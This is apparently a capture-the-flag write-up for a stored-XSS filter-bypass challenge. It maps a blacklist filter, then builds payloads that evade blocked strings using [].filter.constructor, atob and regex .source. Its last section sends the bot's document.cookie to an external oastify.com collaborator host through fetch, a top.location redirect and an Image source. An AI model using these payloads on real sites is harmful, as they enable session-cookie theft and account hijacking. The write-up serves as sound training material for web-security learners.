




### Recon

In this challenge, tags do not trigger **"hacker detected!"** unless they include `<` at the beginning. For example, **body** is not blocked, but **<body** is. Using the tag wordlist from PortSwigger, I identified the blocked tags as follows:



A similar filtering technique is applied to event attributes. **onerror** is not blocked, but **onerror=** is. The blocked event attributes are:



Additionally, some specific strings are blocked, making this challenge time-consuming:

```
="
='
=`
("
('
(`
alert
document.cookie
```

### Initial Payload

For this challenge, I used the `button` tag. Since `alert` is also blocked, I tested my payload using `print()`:

```html
<button autofocus onfocus=print()>
```

This payload worked, triggering the print dialog when I visited the website.

### Bypassing the Filter

Since `document.cookie` is blocked, I had to encode it in Base64. For example:

```js
new Function(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))() // alert(document.cookie)
```

However, `new Function()` requires parentheses for instantiation, so I used:

```js
[].filter.constructor()
```

This evaluates and executes immediately.

Furthermore, since `(`, `(`, and `('` are blocked, I needed a way to pass the Base64 string to `atob` without using quotes:

```js
/base64-string-here/.source
```

Using `.source` on a regex returns the string content without needing quotes. Example:

```js
atob(/YWxlcnQoZG9jdW1lbnQuY29va2llKQ==/.source)
```

The final payload to alert the cookie:

```html
<button autofocus onfocus = [].filter.constructor(atob(/YWxlcnQoZG9jdW1lbnQuY29va2llKQ==/.source))()></button>
```

### OOB Technique and the Bot’s Behavior

To exfiltrate the cookie, I used `fetch` to send it to my server:

```js
fetch('https://zloc7rbkddl0inkf5l8hi5tt2k8bwgk5.oastify.com/?c='+document.cookie);
```

The corresponding HTML payload:

```html
<button autofocus onfocus = [].filter.constructor(atob(/ZmV0Y2goJ2h0dHBzOi8vemxvYzdyYmtkZGwwaW5rZjVsOGhpNXR0Mms4YndnazUub2FzdGlmeS5jb20vP2M9Jytkb2N1bWVudC5jb29raWUpOw==/.source))()></button>
```

However, this only returned my own HTTP request, not the bot’s. Still, I knew the bot executed the payload because its IP sent DNS requests. It seemed the bot executed the script partially but didn’t make an actual HTTP request to my server.



I then modified the payload to force the bot to visit my server directly:

```js
top.location='https://zloc7rbkddl0inkf5l8hi5tt2k8bwgk5.oastify.com/?c='+document.cookie;
```

Alternatively:

```js
var x = new Image(); x.src = 'https://zloc7rbkddl0inkf5l8hi5tt2k8bwgk5.oastify.com/?c=' + document.cookie;
```

Finally, the bot redirected to my server:



### Validation

Even after obtaining the bot’s cookie, nothing unusual appeared on the website. I even use `dirsearch` to find hidden pages, but doesn't work. After that, I discovered that the validation relied on the second `PHPSESSID`. The bot had two sessions, and the second session remained unchanged, which was the key to solving the challenge.

### Other ways to solve the challenge

https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass?action_solution=voir&debut_affiche_solutions=0#pagination_affiche_solutions